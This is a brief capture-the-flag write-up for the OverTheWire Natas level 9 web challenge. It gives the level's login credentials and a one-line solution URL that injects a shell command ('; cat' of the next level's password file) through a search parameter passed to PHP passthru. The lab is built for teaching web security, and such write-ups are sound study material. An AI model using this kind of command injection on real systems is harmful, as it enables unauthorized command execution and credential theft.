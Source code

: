 # Username
natas9
# Password
ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t
# Web vulnerability
OS Command Injection. Sourcecode analysis.
# Method of solve
Look at the sourcecode. See that it's using the PHP passthru function. Use simple injection payloads
```
http://natas9.natas.labs.overthewire.org/?needle=%3B+cat+%2Fetc%2Fnatas_webpass%2Fnatas10+%23&submit=Search
```
